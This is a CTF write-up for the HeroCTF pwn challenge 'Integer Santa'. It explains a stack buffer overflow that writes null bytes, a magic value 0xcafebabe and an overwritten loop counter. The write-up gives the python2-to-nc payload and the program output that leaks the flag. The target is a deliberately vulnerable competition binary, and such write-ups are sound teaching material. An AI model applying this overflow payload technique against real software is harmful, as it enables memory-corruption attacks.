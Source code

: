 # Integer Santa

### Category

Pwn

### Description

Tell Santa what you want for chrismas ! 

Format : **Hero{flag}**<br>
Author : **SoEasY**

### Write up

This loop is interesting : 

```c
for(int i=0; i < tours; i++){
    if(i > strlen(flag))
        break;
    printf("%.*s\n", strlen(input) == 0 && valeur==0xcafebabe, ptr);
		ptr += 1;
}
```

We have to overflow the input buffer of 64 bytes, keep tthe value 0xcafebabe for the int "valueur" (cf. source code in C) and then overflow the "tours" int.

Then, the condition `strlen(input) == 0 && valeur==0xcafebabe` will return TRUE, which correponds to the int 1, and so the programm will give you a letter of the flag. By overflowing the variable "tours" we can print all the flag. Btw, the length of the input must be 0...

So the payload contains : 
- \x00 * 64 to overflow the buffer and having a input length of 0
- 0xcafebabe 
- a caracter to overflow the "tours" int

```bash
$ python2 -c "print('\x00'*64 + '\xbe\xba\xfe\xca' + '1')" | nc challs.heroctf.fr xxxx
██╗  ██╗███████╗██████╗  ██████╗  ██████╗████████╗███████╗
██║  ██║██╔════╝██╔══██╗██╔═══██╗██╔════╝╚══██╔══╝██╔════╝
███████║█████╗  ██████╔╝██║   ██║██║        ██║   █████╗  
██╔══██║██╔══╝  ██╔══██╗██║   ██║██║        ██║   ██╔══╝  
██║  ██║███████╗██║  ██║╚██████╔╝╚██████╗   ██║   ██║     
╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝ ╚═════╝  ╚═════╝   ╚═╝   ╚═╝     
================ Integer Santa (by SoEasY) ===============

Ho ho ho... It's Integer Santa !
Tell me what do you wan for Xmas kiddo (you can ask for 1 gift only !!!) : H
e
r
o
{
W
3
1
r
d
_
0
v
3
r
F
l
0
w
_
f
0
r
_
X
m
4
s
}

Alright ! I'll tell my pixies :)
See u kiddo !
```

### Flag

Hero{W31rd_0v3rFl0w_f0r_Xm4s}

